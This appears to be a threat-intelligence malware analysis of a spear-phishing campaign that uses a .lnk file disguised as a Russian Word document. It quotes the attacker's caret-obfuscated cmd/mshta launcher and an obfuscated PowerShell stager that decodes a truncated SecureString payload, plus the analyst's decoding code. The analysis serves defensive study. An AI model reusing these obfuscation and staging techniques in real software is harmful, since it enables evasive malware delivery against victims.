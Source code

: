 ## Unknown Threat Actor in Russia
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Victimology](Victimology)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Translated Documents](#Documents)
  + [Link Anyrun](#Links-Anyrun)
  + [Articles](#Articles)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector is an lnk file probably push on a spear-phishing in using the fact as shortcut, this show the icon of a word document to lure its victim. This use dos command for sets the variables and use mshta command for download and execute the next stager on a zip if the lnk isn't present or execute it directly. We can note that this uses the obfuscation techniques shown by Daniel Bohannon conferences and pushed on the invoke-obfuscation tool.<h6>

```bash 
REM m = mshta
REM a = Рекомендации_МИР.docx.lnk
"C:\Windows\System32\cmd.exe" /v /c set m=m^s^h^ta && set a=Р^екоменд^ации_МИР.do^cx.lnk && if exist !cd!\!a! (!m! !cd!\!a!) else (!m! !temp!\Temp1_Рекомендации.zip\!a!)
```

<h6>The second stager use another method for decode the data in memory by converting as SecureString with a key as obfuscation method. The method and the regex of the variable used, match with the emotet loader from the malware campaign in 2018-2019. Once the concept understands with a payload converted as SecureString with the key and replace the key and the payload on the structure, this can be easily reused by any attacker, this probably the case here.</h6>

```csharp
([RUNtime.iNtErOPsErVICeS.MARsHaL]::([RuntIme.INteROpSeRviCES.MArShAl].gEtMEMBeRs()[2].NaME).InvokE([RUnTImE.InteRopSERVICEs.MarSHAL]::sEcUrEStRiNgTOGLobaLAlloCUnICoDE( $('76492d1116743f0423413b1 [...] IAMQA5AGYANwBiADAAMAAwAA=='| COnVertTO-secUReStriNg -key  105,89,16,42,117,124,77,191,238,159,97,28,11,240,17,77,146,79,194,114,84,201,175,239,28,47,34,187,155,172,91,31))) )| .((GV '*MDR*').nAme[3,11,2]-JOIN'')
```

<h6>For decrypt it, we use "SecureStringToBSTR" method for managed SecureString object to copy resident in memory to pointer with address reference, finally rest to use "PtrToStringAuto" for copies all characters from the address on the designed variable and get the value in memory.</h6>

```csharp
$str='76492d1116743f0423413b1 [...] IAMQA5AGYANwBiADAAMAAwAA=='| COnVertTO-secUReStriNg -key  105,89,16,42,117,124,77,191,238,159,97,28,11,240,17,77,146,79,194,114,84,201,175,239,28,47,34,187,155,172,91,31
$res=[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR($str) )
set-content -value $res -path $path
```
